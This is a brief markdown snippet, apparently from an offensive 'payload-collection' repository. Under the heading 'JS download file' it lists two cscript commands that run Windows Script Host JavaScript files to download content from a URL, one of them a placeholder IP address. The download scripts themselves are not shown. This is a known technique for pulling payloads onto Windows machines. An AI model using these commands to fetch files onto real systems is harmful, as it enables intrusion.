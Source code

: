 ## JS download file

### metho1

```
cscript /nologo downloadfile.js https://1.2.3.4
```

### method2

```
cscript /nologo downloadfile1.js https://raw.githubusercontent.com/neal1991/payload-collection/master/README.md test1.md
```